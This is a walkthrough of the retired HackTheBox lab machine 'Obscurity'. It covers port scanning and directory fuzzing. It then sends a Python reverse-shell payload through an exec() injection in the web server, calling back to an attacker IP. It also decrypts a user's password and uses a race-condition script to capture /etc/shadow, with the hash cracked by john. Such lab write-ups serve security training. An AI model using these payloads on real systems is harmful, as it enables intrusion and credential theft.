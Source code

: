 ```yaml
---
layout: default
---
```

## Obscurity
###### Retired May 2020
![](https://www.hackthebox.eu/storage/avatars/8c606d79541774c87ab0ee5705821323.png)

##### Intro
Static code analysis! Initial foothold was pretty easy, user was a little more involved, and root was quick. Full-time developers would absolutely crush this box.

Start off with a quick nmap looking for open ports:
```bash
nmap -sS -n -n obscurity.htb -p 1-65535
```

![](https://yaboygmoney.github.io/htb/images/obscurity/nmap1.png)

nmap showed ssh and http open on 22 and 8080, respectively. For more information, I ran
```bash
nmap -sV -n obscurity.htb -p 22,80,8080 -oN nmap.results
```

![](https://yaboygmoney.github.io/htb/images/obscurity/nmap2.png)

It appears as though the website is being ran on a custom web server, confidently named BadHTTPServer. Open up ```http://obscurity.htb:8080``` in Firefox and land on a web page.

![](https://yaboygmoney.github.io/htb/images/obscurity/webpage.png)

Scrolling down, there's a note to the devs that the current source is located in a development directory.

![](https://yaboygmoney.github.io/htb/images/obscurity/devNote.png)

We can find this quickly with a tool called ```wfuzz```. ```wfuzz``` lets you fuzz particular segments of a URL by replacing what part you would like to fuzz with ```FUZZ```. All it needs is a wordlist and the URL. ```wfuzz``` will print out the result of each request it makes, so it's helpful to find only the responses that come back valid. To do that, just take on ```| grep -v 404``` to ingore the 404 File Not Found results. The whole command looks like
```bash
wfuzz -w /usr/share/wordlists/dirb/common.txt http://10.10.10.168:8080/FUZZ/SuperSecureServer.py | grep -v 404
```

![](https://yaboygmoney.github.io/htb/images/obscurity/wfuzz.png)

wfuzz found the valid URL ```http://obscurity.htb:8080/develop/SuperSecureServer.py```. There, we can see the source code for the server.

![](https://yaboygmoney.github.io/htb/images/obscurity/serverCode.png)

Looking down towards the bottom of the code, there are some comments on a couple of lines of code.
```python
def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
            if path == "/":
                path = "/index.html"
```

The [exec](https://pythonprogramming.net/python-exec-tutorial/) builtin allows developers (and hackers) to execute python code from within that input. To abuse this for a shell, a netcat listener is required.
```bash
nc -nvlp 1234
````

Now that the listener is set up to catch the shell, we need to send a get request to
```bash
http://obscurity.htb:8080/';s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.28",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

This web request injects the [python reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) into the ```exec``` function, causing our payload to be executed. Make the request either via curl or through the browser (I went browser) and bam, shell.

![](https://yaboygmoney.github.io/htb/images/obscurity/initialShell.png)

Once we land on the machine as www-data, we need to elevate our privileges to get user. We can see in the user robert's home directory there is a ```SuperSecureCrypt.py``` file, as well as a ```passwordreminder.txt``` file. 

![](https://yaboygmoney.github.io/htb/images/obscurity/robertDir.png)

Looking at the ```SuperSecureCrypt.py```, the program takes an input file to encrypt or decrypt, a string value for the key, and an output file. 

![](https://yaboygmoney.github.io/htb/images/obscurity/parser.png)

We're also given ```check.txt``` file and the output of the encryption in the form of ```out.txt```. 

![](https://yaboygmoney.github.io/htb/images/obscurity/checkOut.png)

The cool part is that we don't need to reverse engineer the encryption process if we have two pieces already. We can just unmath it. To do that, I sent the input file to be decrypted as the output, the key as the contents of check.txt, and set the ```-d``` option. The output will be the key that was used to encyrpt the file.

```bash
python3 SuperSecureCrypt.py -i out.txt -k "$(cat check.txt)" -d -o /tmp/ybgm.txt
```
The result kicked out the key ```alexandrovich``` several times over. Now we can run the same command again but to decrypt the ```passwordreminder.txt``` file and passing the output of our previous command as the key.

![](https://yaboygmoney.github.io/htb/images/obscurity/keyCrack.png)

```bash
python3 SuperSecureCrypt.py -i passwordreminder.txt -k "($cat /tmp/ybgm.txt)" -o /tmp/ybgm2.txt -d
```

The contents of the new file contain robert's password: ```SecThruObsFTW```.

![](https://yaboygmoney.github.io/htb/images/obscurity/password.png)

Now we can SSH in as robert and get out of this web-based shell and more importantly: get user.

```bash
ssh robert@obscurity.htb
cat user.txt
```

![](https://yaboygmoney.github.io/htb/images/obscurity/user.png)

```sudo -l``` shows that we can run the ```/home/robert/BetterSSH/BetterSSH.py``` file as root.

![](https://yaboygmoney.github.io/htb/images/obscurity/sudoL.png)

The file has permissions of ```-rwxr-xr-x 1 root   root```. I can't change it, as root owns the file, so I need a different way than just overwriting or editing the file. I started looking through the code to find a vulnerability, similar to the web server I exploited earlier.

The code segment that we care the most about looks like this:
```python
path = ''.join(random.choices(string.ascii_letters + string.digits, k=8))
session = {"user": "", "authenticated": 0}
try:
    session['user'] = input("Enter username: ")
    passW = input("Enter password: ")

    with open('/etc/shadow', 'r') as f:
        data = f.readlines()
    data = [(p.split(":") if "$" in p else None) for p in data]
    passwords = []
    for x in data:
        if not x == None:
            passwords.append(x)

    passwordFile = '\n'.join(['\n'.join(p) for p in passwords]) 
    with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
    salt = ""
    realPass = ""
    for p in passwords:
        if p[0] == session['user']:
            salt, realPass = p[1].split('$')[2:]
            break
```

This code is opening up ```/etc/shadow``` and writing the contents to a password file in ```/tmp/SSH``` with a random filename so later it can compare the results of a provided password to authenticate to this 'better' SSH application. Unfortunately, it's deleting the file as soon as it's finished with it, making it impossible to manually read it during program execution. 
```python
if hash == realPass:
        print("Authed!")
        session['authenticated'] = 1
    else:
        print("Incorrect pass")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    os.remove(os.path.join('/tmp/SSH/',path))
except Exception as e:
    traceback.print_exc()
    sys.exit(0)
```

On first run, the code breaks because ```/tmp/SSH``` doesn't exist, so that needs to be created first.
```bash
mkdir /tmp/SSH
```

To catch the contents of the file that is written before it is deleted, I wrote a script that constantly reads the contents of the all of the files in the ```/tmp/SSH``` directory and write them to a new file that wouldn't be deleted. We need to read every file in this directory regardless of name, because the first line of the ```BetterSSH.py``` file is creating a random filename
```python
path = ''.join(random.choices(string.ascii_letters + string.digits, k=8))
```

The script to catch the temp files looks like:

```bash
#!/bin/bash

while :
do
  cat /tmp/SSH/* >> /tmp/results.txt
done
```
I kicked off that script and then I used another window to SSH back in as robert. Then I ran
```bash
sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```
and logged in as robert and then killed the execution of my other script. Then I opened the ```/tmp/results.txt``` file and had the contents of the shadow file.

![](https://yaboygmoney.github.io/htb/images/obscurity/dumped.png)

From there, it was as easy as running the hash through ```john``` and logging in.

![](https://yaboygmoney.github.io/htb/images/obscurity/crackedRoot.png)

![](https://yaboygmoney.github.io/htb/images/obscurity/root.png)

![](https://media.giphy.com/media/l4JySAWfMaY7w88sU/giphy.gif)
